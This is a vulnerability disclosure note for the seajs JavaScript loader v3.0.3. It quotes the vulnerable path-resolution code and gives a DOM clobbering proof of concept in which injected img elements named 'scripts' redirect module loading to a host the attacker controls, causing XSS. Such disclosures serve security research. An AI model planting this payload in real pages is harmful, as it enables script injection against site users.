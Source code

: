## seajs

### Meta

+ Library: seajs
+ Stars: 8.3K
+ Version: v3.0.3
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx"><img name="scripts" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported(Snyk)
+ Foundby: TheHulk


### Library

https://github.com/seajs/seajs


### Vulnerable Code Snippet

```javascript
// https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247
var doc = document
var scripts = doc.scripts

// Recommend to add `seajsnode` id for the `sea.js` script element
var loaderScript = doc.getElementById("seajsnode") ||
	scripts[scripts.length - 1]

function getScriptAbsoluteSrc(node) {
	return node.hasAttribute ? // non-IE6/7
		node.src :
		// see http://msdn.microsoft.com/en-us/library/ms536429(VS.85).aspx
		node.getAttribute("src", 4)
}
loaderPath = getScriptAbsoluteSrc(loaderScript)
// When `sea.js` is inline, set loaderDir to current working directory
loaderDir = dirname(loaderPath || cwd)
```

### PoC
```html

<!--Library-->
<script src="./sea-modules/seajs/seajs/3.0.3/sea.js"></script>
<script>
// Set configuration
seajs.config({
  alias: {
    "jquery": "jquery/jquery/1.10.1/jquery.js"
  }
});
seajs.use("examples/hello/1.0.0/main");
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```